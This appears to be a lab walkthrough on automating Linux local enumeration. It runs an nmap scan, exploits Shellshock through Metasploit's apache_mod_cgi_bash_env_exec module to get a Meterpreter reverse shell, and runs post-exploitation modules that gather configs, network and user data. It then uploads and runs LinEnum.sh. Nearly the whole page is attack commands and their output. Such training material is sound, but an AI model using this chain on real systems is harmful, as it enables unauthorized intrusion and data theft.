




# Automating Linux Local Enumeration

<figure><figcaption></figcaption></figure>

```sh
root@attackdefense:~# nmap -sV 192.85.104.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-17 20:38 IST
Nmap scan report for target-1 (192.85.104.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
MAC Address: 02:42:C0:55:68:03 (Unknown)
```

<figure><figcaption></figcaption></figure>

```sh
msf5 > search shellshock

Matching Modules
================

   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   2   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   3   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   4   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   6   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   9   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   10  exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   11  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)


msf5 > use 5
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.85.104.3
RHOSTS => 192.85.104.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /gettime.cgi
TARGETURI => /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 192.85.104.2:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (985320 bytes) to 192.85.104.3
[*] Meterpreter session 1 opened (192.85.104.2:4444 -> 192.85.104.3:35462) at 2024-01-17 20:48:54 +0530

meterpreter >
```

```sh
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > search enum_configs

Matching Modules
================

   #  Name                            Disclosure Date  Rank    Check  Description
   -  ----                            ---------------  ----    -----  -----------
   0  post/linux/gather/enum_configs                   normal  No     Linux Gather Configurations


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use 0
msf5 post(linux/gather/enum_configs) > set session 1
session => 1
msf5 post(linux/gather/enum_configs) > run

[*] Running module against 192.85.104.3 [victim-1]
[*] Info:
[*] 	Ubuntu 14.04.6 LTS  
[*] 	Linux victim-1 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
[-] Failed to open file: /etc/apache2/apache2.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/apache2/ports.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/nginx/nginx.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/snort/snort.conf: core_channel_open: Operation failed: 1
[+] my.cnf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_373832.txt
[-] Failed to open file: /etc/ufw/ufw.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/ufw/sysctl.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/security.access.conf: core_channel_open: Operation failed: 1
[+] shells stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_768655.txt
[+] sepermit.conf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_173271.txt
[+] ca-certificates.conf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_587308.txt
[+] access.conf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_541872.txt
[-] Failed to open file: /etc/gated.conf: core_channel_open: Operation failed: 1
[+] rpc stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_802840.txt
[-] Failed to open file: /etc/psad/psad.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/mysql/debian.cnf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/chkrootkit.conf: core_channel_open: Operation failed: 1
[+] logrotate.conf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_320218.txt
[-] Failed to open file: /etc/rkhunter.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/samba/smb.conf: core_channel_open: Operation failed: 1
[+] ldap.conf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_623055.txt
[-] Failed to open file: /etc/openldap/openldap.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cups/cups.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/opt/lampp/etc/httpd.conf: core_channel_open: Operation failed: 1
[+] sysctl.conf stored in /root/.msf4/loot/20240117205023_default_192.85.104.3_linux.enum.conf_535258.txt
[-] Failed to open file: /etc/proxychains.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cups/snmp.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/mail/sendmail.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/snmp/snmp.conf: core_channel_open: Operation failed: 1
[*] Post module execution completed

```

```sh
msf5 post(linux/gather/enum_configs) > search enum_network

Matching Modules
================

   #  Name                            Disclosure Date  Rank    Check  Description
   -  ----                            ---------------  ----    -----  -----------
   0  post/linux/gather/enum_network                   normal  No     Linux Gather Network Information


msf5 post(linux/gather/enum_configs) > use 0
msf5 post(linux/gather/enum_network) > set session 1
session => 1
msf5 post(linux/gather/enum_network) > run

[*] Running module against 192.85.104.3
[*] Module running as daemon
[+] Info:
[+] 	Ubuntu 14.04.6 LTS  
[+] 	Linux victim-1 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
[*] Collecting data...
[-] Failed to open file: /etc/ssh/sshd_config: core_channel_open: Operation failed: 1
[+] Network config stored in /root/.msf4/loot/20240117205155_default_192.85.104.3_linux.enum.netwo_566467.txt
[+] Route table stored in /root/.msf4/loot/20240117205155_default_192.85.104.3_linux.enum.netwo_893926.txt
[-] Unable to get data for Firewall config
[+] DNS config stored in /root/.msf4/loot/20240117205155_default_192.85.104.3_linux.enum.netwo_977721.txt
[-] Unable to get data for SSHD config
[+] Host file stored in /root/.msf4/loot/20240117205155_default_192.85.104.3_linux.enum.netwo_947803.txt
[-] Unable to get data for Active connections
[-] Unable to get data for Wireless information
[+] Listening ports stored in /root/.msf4/loot/20240117205155_default_192.85.104.3_linux.enum.netwo_903794.txt
[+] If-Up/If-Down stored in /root/.msf4/loot/20240117205155_default_192.85.104.3_linux.enum.netwo_397225.txt
[*] Post module execution completed
```

```sh
msf5 post(linux/gather/enum_network) > search enum_system

Matching Modules
================

   #  Name                           Disclosure Date  Rank    Check  Description
   -  ----                           ---------------  ----    -----  -----------
   0  post/linux/gather/enum_system                   normal  No     Linux Gather System and User Information


msf5 post(linux/gather/enum_network) > use 0
msf5 post(linux/gather/enum_system) > set session 1
session => 1
msf5 post(linux/gather/enum_system) > run

[+] Info:
[+] 	Ubuntu 14.04.6 LTS  
[+] 	Linux victim-1 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
[+] 	Module running as "daemon" user
[*] Linux version stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_487945.txt
[*] User accounts stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_951810.txt
[*] Installed Packages stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_576076.txt
[*] Running Services stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_327456.txt
[*] Cron jobs stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_131724.txt
[*] Disk info stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_987452.txt
[*] Logfiles stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_406490.txt
[*] Setuid/setgid files stored in /root/.msf4/loot/20240117205354_default_192.85.104.3_linux.enum.syste_109221.txt
[*] Post module execution completed
```

```sh
meterpreter > pwd
/opt/apache/htdocs
meterpreter > cd /tmp
```

<figure><figcaption></figcaption></figure>

paste to the clipboard using the ctrl+shift+alt shortcut key.

<figure><figcaption></figcaption></figure>

```sh
meterpreter > ls
Listing: /tmp
=============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100777/rwxrwxrwx  207   fil   2024-01-17 20:48:54 +0530  dPWBH
100644/rw-r--r--  11    fil   2024-01-17 19:55:41 +0530  date
40755/rwxr-xr-x   4096  dir   2022-02-17 20:55:55 +0530  vuln_files

meterpreter > upload /root/Desktop/LinEnum.sh
[*] uploading  : /root/Desktop/LinEnum.sh -> LinEnum.sh
[*] Uploaded -1.00 B of 128.00 KiB (-0.0%): /root/Desktop/LinEnum.sh -> LinEnum.sh
[*] uploaded   : /root/Desktop/LinEnum.sh -> LinEnum.sh


meterpreter > shell
Process 267 created.
Channel 65 created.
/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
daemon@victim-1:/tmp$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@victim-1:/tmp$ whoami
whoami
daemon
daemon@victim-1:/tmp$ ls
ls
LinEnum.sh
dPWBH
date
vuln_files
daemon@victim-1:/tmp$ chmod +x LinEnum.sh
chmod +x LinEnum.sh
daemon@victim-1:/tmp$ ./LinEnum.sh
```
